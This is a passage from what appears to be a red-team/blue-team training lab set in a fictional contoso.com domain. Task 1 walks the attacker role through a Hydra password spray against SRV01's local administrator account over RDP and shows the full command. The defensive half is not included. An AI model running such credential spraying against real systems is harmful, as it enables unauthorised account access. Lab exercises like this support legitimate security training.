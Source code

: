 ===

## Exercise 1 - Compromise a local administrator account
We are still working on the same contoso.com environment composed of the following machines:
- **DC01** a domain controller for contoso.com running Windows Server 2016 in the HQ Active Directory site
- **DC02** a domain controller for contoso.com running Windows Server 2022 in the Beijin Active Directory site
- **SRV01** a domain joined server member of the contoso.com domain running Windows Server 2022
- **CLI01** a domain joined client member of the contoso.com domain running Windows 11

In this exercise, <font style="color:red;">**Miss Red**</font> will try to get into SRV01 by guessing the local administrator account's password. And <font style="color:blue;">**Mister Blue**</font> will try to make the environment more resistant to this attack.

### Task 1 - Password spray the admin account of SRV01
Welcome back <font style="color:red;">**Miss Red**</font>! In this exercise you will use **Hydra** to conduct a password spray against the local administrator account of **SRV01**. 


1. [] Log on to **@lab.VirtualMachine(CLI01).SelectLink**. Use the following credentials:
    |||
    |:--------|:--------|
    | Username | `CONTOSO\red` |
    | Password | Please type the password |
    

1. [] Right click on the Start menu ![image](.\IMG\11menu.png) and click on **Windows Terminal (Admin)**.

1. [] Change the current directory by typing `cd \Tools\THC-Hydra` and hit **Enter**.

1. [] Run the following command `Get-Content .\users.lst`.
    This list has all the usernames that will be targeted during the attack.

    📝 What is the first name of this list?

1. [] Run the following command `Get-Content .\passwords.lst`.
    This list has all the passwords that will be attempted during the attack.

1. [] Run **Hydra** by executing `.\hydra.exe -V -F -L .\users.lst -P .\passwords.lst SRV01 rdp`.
   
    >[!knowledge] The **-f** parameter tells **Hydra** to stop the attack as soon as it has found a password.

    And here we go, we found it:
    ![image](.\IMG\FOUND.png)
